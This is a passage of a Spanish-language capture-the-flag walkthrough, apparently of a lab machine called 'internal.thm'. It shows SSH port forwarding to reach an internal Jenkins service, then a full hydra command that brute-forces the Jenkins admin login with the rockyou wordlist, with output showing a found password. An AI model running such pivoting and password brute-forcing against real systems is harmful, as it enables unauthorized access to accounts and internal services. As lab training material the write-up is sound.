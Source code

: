 ```bash
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$
```
Mmmm, hay un servicio Jenkins corriendo...

Ya que tenemos las credenciales de este usuario, hagamosle un forward a ese puerto para poder acceder desde nuestra PC.

```bash
╰─ lanfran@parrot ❯ ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm                                                             ─╯
The authenticity of host 'internal.thm (10.10.170.6)' can't be established.
ECDSA key fingerprint is SHA256:fJ/BlTrDF8wS8/eqyoej1aq/NmvQh79ABdkpiiN5tqE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'internal.thm,10.10.170.6' (ECDSA) to the list of known hosts.
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul  9 09:24:06 UTC 2021

  System load:  0.02              Processes:              117
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 48%               IP address for eth0:    10.10.170.6
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$
```
Mmmmm, si ahora nos dirigimos a `127.0.0.1:8080` veremos la página de jenkins solicitando credenciales, usemos `hydra` para hacerle fuerza bruta.

```bash
╰─ lanfran@parrot ❯ hydra 127.0.0.1 -s 8080 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-09 11:41:41
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password
[8080][http-post-form] host: 127.0.0.1   login: admin   password: [REDACTADO]
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```